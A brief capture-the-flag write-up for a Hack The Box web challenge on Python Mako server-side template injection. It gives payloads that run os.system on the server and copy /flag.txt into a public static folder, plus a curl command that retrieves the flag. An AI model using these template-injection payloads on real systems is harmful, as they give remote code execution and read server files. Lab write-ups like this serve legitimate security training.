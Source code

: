 on using a payload from payloadallthings for mako (A python template engine)
```
${self.module.cache.util.os.system("id")}
```
It only shows `0`, which is the error code that `os.system` returns. Using `os.system` we will not be able to read the flag directly, but we have code execution, so we can copy the `/flag.txt` into a public directory:

```
${self.module.cache.util.os.system("cp /flag.txt /app/application/static/css")}  
```
further access the flag by using `$ curl 161.35.174.99:30548/static/css/flag.txt`


### References
https://app.hackthebox.com/challenges/Spookifier - Py SSTI 